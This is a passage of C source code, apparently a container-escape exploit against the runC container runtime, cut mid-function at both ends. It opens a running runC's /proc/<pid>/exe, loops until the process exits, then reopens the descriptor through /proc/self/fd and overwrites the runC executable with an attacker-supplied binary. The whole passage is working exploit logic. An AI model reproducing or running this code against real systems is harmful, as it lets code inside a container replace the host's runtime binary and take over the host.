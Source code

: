 ```
	{
		printf("Usage: %s </proc/runc_pid/exe> <new runc path>\n", argv[0]);
		return RET_ERR;
	}


	/* Open /proc/runc_pid/exe for reading */
	runc_exe_path = argv[1];
	runc_fd_read = open(runc_exe_path, O_RDONLY);
	if (runc_fd_read == OPEN_ERR)
	{
		printf("[!] Couldn't open runC's exe %s\n", runc_exe_path);
		perror("[!] Open");
		return RET_ERR;
	}
	printf("[+] Got %s as fd %d in this process\n", runc_exe_path, runc_fd_read);



	/* Read new_runc */
	if (argc < 3)
		new_runc_path = DEFAULT_NEW_RUNC_PATH;
	else
		new_runc_path = argv[2];
	new_runc = read_new_runc(new_runc_path);
	if (new_runc.buff == NULL)
	{
		close(runc_fd_read);
		return RET_ERR;
	}
	printf("[+] Read %d bytes from new runC\n", new_runc.len);


	/* Try to open /proc/self/fd/runc_fd_read for writing */
	/* Will Succeed after the runC process exits          */
	sprintf(my_runc_fd_path, "/proc/self/fd/%d", runc_fd_read);
	int opened = FALSE;
	for (long count = 0; (!opened && count < WRITE_TIMEOUT); count++)
	{
		my_runc_fd = open(my_runc_fd_path, O_WRONLY | O_TRUNC);
		if (my_runc_fd != OPEN_ERR)
		{
			wc = write(my_runc_fd, new_runc.buff, new_runc.len);
			if (wc !=  new_runc.len)
			{
				printf("[!] Couldn't write to my process's runC's fd %s\n", my_runc_fd_path);
				close(my_runc_fd);
				close(runc_fd_read);
				free(new_runc.buff);
				return RET_ERR;
			}
			printf("[+] Opened runC (using %s) for writing\n", my_runc_fd_path);
			printf("[+] Succesfully overwritten runC\n");
			opened = TRUE;
		}
	}

	/* Clean ups & return */
	close(my_runc_fd);
	close(runc_fd_read);
	free(new_runc.buff);
	if (opened == FALSE)
	{
```